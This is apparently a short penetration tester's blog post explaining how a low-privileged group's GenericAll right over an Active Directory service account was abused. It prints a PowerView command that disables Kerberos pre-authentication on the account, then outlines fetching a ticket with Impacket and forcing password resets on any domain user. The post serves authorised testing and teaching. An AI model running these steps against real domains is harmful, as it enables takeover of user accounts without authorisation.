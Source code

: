 [Home](https://plackyhacker.github.io)

# Changing the userAccountControl Attribute in AD

Recently I was conducting some technical testing, specifically permissions and privileges that users have in AD. During the tests I found that a group containing low privileged users had the `GenericAll` permission over a service account that had the `ForceChangePassword` permission over ALL user accounts in the domain.

I used Bloodhound to analyse these:

<img width="732" alt="Screenshot 2023-02-18 at 17 21 51" src="https://user-images.githubusercontent.com/42491100/219879488-f09b9da4-a189-475a-92e0-f16dd4ec51e3.png">

The image is for illustrative purposes only, there is more than 3 user accounts in the domain!

I couldn't change the service account password as it would break the underlying service. So I decided to briefly change the `userAccountControl` attribute on the object so I could get a Kerberos Ticket Granting Ticket for the account and abuse it that way instead. I used `PowerView` to do this:

```powershell
. .\PowerView.ps1
$username = "low.priv.account@domain.local";
$password = ConvertTo-SecureString "PASSWORD_HERE" -AsPlainText -Force;
$cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $username, $password;

Set-DomainObject -Identity 'target.account' -Set @{'userAccountControl'=0x410200} -Credential $cred -Domain "domain.local" -Server '172.16.1.5'; 
```

The setting I made breaks down as follows:

```
NORMAL_ACCOUNT       0x0200
DONT_EXPIRE_PASSWORD 0x10000
DONT_REQ_PREAUTH     0x400000
```

More settings can be referred to at:

[Use the UserAccountControl flags to manipulate user account properties](https://learn.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties)

The initial attribute value was `0x10200`.

I could then grab a TGT (using Impacket GetNPUsers), force a password change on any user, and change the attribute back.

[Home](https://plackyhacker.github.io)

